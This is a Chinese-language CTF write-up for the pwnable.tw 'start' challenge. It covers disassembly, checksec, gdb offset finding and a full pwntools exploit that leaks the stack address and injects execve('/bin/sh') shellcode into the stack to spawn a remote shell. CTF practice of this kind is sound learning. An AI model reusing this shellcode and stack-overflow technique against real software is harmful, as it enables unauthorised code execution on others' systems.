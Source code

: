 # Start
## nc
> nc chall.pwnable.tw 10000

首先执行一下可执行程序发现输出 Let's start the CTF:

之后等待用户输入，后退出程序

拖入ida分析程序
```
.text:08048060                     public _start
.text:08048060     _start          proc near               ; DATA XREF: LOAD:08048018↑o
.text:08048060 000                 push    esp
.text:08048061 004                 push    offset _exit
.text:08048066 008                 xor     eax, eax
.text:08048068 008                 xor     ebx, ebx
.text:0804806A 008                 xor     ecx, ecx
.text:0804806C 008                 xor     edx, edx
.text:0804806E 008                 push    3A465443h
.text:08048073 00C                 push    20656874h
.text:08048078 010                 push    20747261h
.text:0804807D 014                 push    74732073h
.text:08048082 018                 push    2774654Ch
.text:08048087 01C                 mov     ecx, esp        ; addr
.text:08048089 01C                 mov     dl, 14h         ; len
.text:0804808B 01C                 mov     bl, 1           ; fd
.text:0804808D 01C                 mov     al, 4
.text:0804808F 01C                 int     80h             ; LINUX - sys_write
.text:0804808F                                             ; sys_write(1,'Let's start the CTF:',20)
.text:08048091 01C                 xor     ebx, ebx
.text:08048093 01C                 mov     dl, 3Ch
.text:08048095 01C                 mov     al, 3
.text:08048097 01C                 int     80h             ; LINUX -
.text:08048099 01C                 add     esp, 1Ch
.text:0804809C 000                 retn
.text:0804809C     _start          endp

```
于是逻辑很清晰，就是先执行sys_write(1,"Let's start the CTF:",20)

后执行sys_read(0,&ecx,20)

即先向标准输出写入20字节字符

然后从标准输入读取20字节

由于在mac中无法调试ELF程序于是我用了skysider/pwndocker

> docker pull skysider/pwndocker

> docker run -it skysider/pwndocker

首先checksec
```
Arch:     i386-32-little
RELRO:    No RELRO
Stack:    No canary found
NX:       NX disabled
PIE:      No PIE (0x8048000)
```
发现基本没有保护
可以看见No PIE，那么我们首先查看一下docker是否开启ASLR
```
root@571503229c76:/proc/sys# cat /proc/sys/kernel/randomize_va_space
2
```

执行echo 0 /proc/sys/kernel/randomize_va_space会报错

gdb调试start也会出现异常导致程序运行起来但是无法停止调试的情况

这时需要在docker run时加入选项 --cap-add=SYS_PTRACE --security-opt seccomp=unconfined 
重新启用docker发现可以正常调试了

分析代码已经可以知道这是一个栈溢出漏洞，栈空间大小为20。但我们还是可以通过脚本跑一下

并且由于0x08048087 mov ecx,esp可以导致栈基址泄露

而我们程序没有任何保护，因此可以写入shellcode，控制EIP指向shellcode从而执行任意代码。

>pattern.py

首先通过pattern生成一个100bytes大小的测试字符串

root@571503229c76:~/pwn/pwnable.tw/start# python pattern.py create 100
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
```
root@571503229c76:~/pwn/pwnable.tw/start# gdb start
GNU gdb (Ubuntu 7.11.1-0ubuntu1~16.5) 7.11.1
Copyright (C) 2016 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
<http://www.gnu.org/software/gdb/documentation/>.
For help, type "help".
Type "apropos word" to search for commands related to "word"...
pwndbg: loaded 165 commands. Type pwndbg [filter] for a list.
pwndbg: created $rebase, $ida gdb functions (can be used with print/break)
Reading symbols from start...(no debugging symbols found)...done.
pwndbg> r
Starting program: /root/pwn/pwnable.tw/start/start
Let's start the CTF:Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A

Program received signal SIGSEGV, Segmentation fault.
0x37614136 in ?? ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
───────────────────────────────────────────────────────────────────────────────────────────────[ REGISTERS ]────────────────────────────────────────────────────────────────────────────────────────────────
*EAX  0x3c
 EBX  0x0
*ECX  0xffffd7a4 ◂— 0x41306141 ('Aa0A')
*EDX  0x3c
 EDI  0x0
 ESI  0x0
 EBP  0x0
*ESP  0xffffd7bc ◂— 0x41386141 ('Aa8A')
*EIP  0x37614136 ('6Aa7')
─────────────────────────────────────────────────────────────────────────────────────────────────[ DISASM ]─────────────────────────────────────────────────────────────────────────────────────────────────
Invalid address 0x37614136










─────────────────────────────────────────────────────────────────────────────────────────────────[ STACK ]──────────────────────────────────────────────────────────────────────────────────────────────────
00:0000│ esp  0xffffd7bc ◂— 0x41386141 ('Aa8A')
01:0004│      0xffffd7c0 ◂— 0x62413961 ('a9Ab')
02:0008│      0xffffd7c4 ◂— 0x31624130 ('0Ab1')
03:000c│      0xffffd7c8 ◂— 0x41326241 ('Ab2A')
04:0010│      0xffffd7cc ◂— 0x62413362 ('b3Ab')
05:0014│      0xffffd7d0 ◂— 0x35624134 ('4Ab5')
06:0018│      0xffffd7d4 ◂— 0x41366241 ('Ab6A')
07:001c│      0xffffd7d8 ◂— 0x62413762 ('b7Ab')
───────────────────────────────────────────────────────────────────────────────────────────────[ BACKTRACE ]────────────────────────────────────────────────────────────────────────────────────────────────
 ► f 0 37614136
Program received signal SIGSEGV (fault address 0x37614136)
pwndbg> Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
Undefined command: "Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A".  Try "help".
pwndbg> q

root@571503229c76:~/pwn/pwnable.tw/start# python pattern.py offset 0x37614136
hex pattern decoded as: 6Aa7
20
```
那么攻击思路就很明确了，利用栈可执行向栈中写入shellcode，然后通过mov ecx,esp泄露栈地址，然后sys_write会将esp输出，再将shell写入栈空间中，构造返回地址为esp+0x14，将shellcode写入esp+0x14内存中，即可完成pwn

攻击脚本如下：
```python
#!/bin/bash
# coding = utf-8
# author = Mr.BeanX
# date = 2018-5-27

from pwn import *

host = 'chall.pwnable.tw'
port = 10000

gadget = 0x8048087
shellcode = '\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80'

def exp():
	p = remote(host,port)
	print p.recv()
	p.send('A'*20+p32(gadget))
	leak_stack = u32(p.recv(4))
	print 'stack addr: '+hex(leak_stack)

	payload = 'A'*0x14+p32(leak_stack+0x14)+shellcode
	p.send(payload)
	p.interactive('\nshell: ')

exp()


```
